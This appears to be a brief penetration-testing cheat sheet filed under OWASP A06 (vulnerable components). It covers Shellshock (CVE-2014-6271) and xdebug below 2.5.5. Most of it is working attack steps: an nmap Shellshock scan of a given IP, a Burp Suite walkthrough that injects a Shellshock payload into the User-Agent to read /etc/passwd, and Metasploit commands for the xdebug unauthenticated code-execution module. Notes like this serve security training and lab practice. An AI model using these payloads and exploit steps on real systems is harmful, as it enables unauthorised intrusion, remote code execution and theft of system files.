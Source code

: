 # A06 - Vulnerable and Outdated Components

## Shellshock
- CVE-2014-6271 => [Github Exploit](https://github.com/opsxcq/exploit-CVE-2014-6271)
- Discovery
  - ```nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.242.220.3```
- Exploit
  - Intercept the request with Burp Suite
  - Right-click and select "Send to Repeater" Option and Navigate to the Repeater tab
  - Modify the User-Agent and inject the malicious payload: ```() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'```
  - Click on the Send button

## xdebug (< 2.5.5)
- ```msfconsole```
- ```search xdebug```
- ```use exploit/unix/http/xdebug_unauth_exec```
- ```show options```
- Set the RHOST and LHOST
- ```exploit```
